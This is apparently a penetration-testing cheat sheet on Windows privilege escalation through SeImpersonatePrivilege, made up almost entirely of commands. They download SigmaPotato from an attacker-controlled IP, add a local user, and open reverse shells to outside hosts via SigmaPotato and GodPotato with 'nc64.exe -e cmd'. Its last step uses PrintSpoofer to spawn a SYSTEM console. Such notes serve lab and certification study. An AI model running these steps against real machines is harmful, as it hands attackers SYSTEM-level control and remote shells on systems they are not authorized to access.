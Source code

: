 # SeImpersonatePrivilege

Non-privileged users with assigned privileges, such as _SeImpersonatePrivilege_, can potentially abuse those privileges to perform privilege escalation attacks. _SeImpersonatePrivilege_ offers the possibility to leverage a token with another security context.

By default, Windows assigns this privilege to members of:

* local _Administrators_ group&#x20;
* _LOCAL SERVICE_, _NETWORK SERVICE_, and _SERVICE_ accounts.

Check privileges:&#x20;

```powershell
whoami /priv
```

* <mark style="color:red;">`SeImpersonatePrivilege - Impersonate a client after authentication - Enabled`</mark>&#x20;

Download Sigma Potato on windows machine:

{% embed url="https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe" %}

{% code overflow="wrap" %}
```powershell
iwr -uri http://192.168.48.3/SigmaPotato.exe -OutFile SigmaPotato.exe
```
{% endcode %}



Use Sigma Potato to add a new user:

```powershell
.\SigmaPotato "net user dave4 lab /add"
```

{% embed url="https://jlajara.gitlab.io/Potatoes_Windows_Privesc" %}

Use Sigma Potato to get a rev shell:

```powershell
.\SigmaPotato.exe --revshell 10.128.16.60 1233
```

Upgrade shell:

```powershell
.\SigmaPotato.exe -i
```

Use GodPotato to get a rev shell:

{% code overflow="wrap" %}
```powershell
./GodPotato.exe -cmd "nc64.exe 192.168.45.197 4446 -e cmd"
```
{% endcode %}





Printspoofer:

If you have an **interactive** shell, you can create a new SYSTEM process in your current console.

```powershell
Get-Service Spooler
```

```
PrintSpoofer.exe -i -c cmd
```
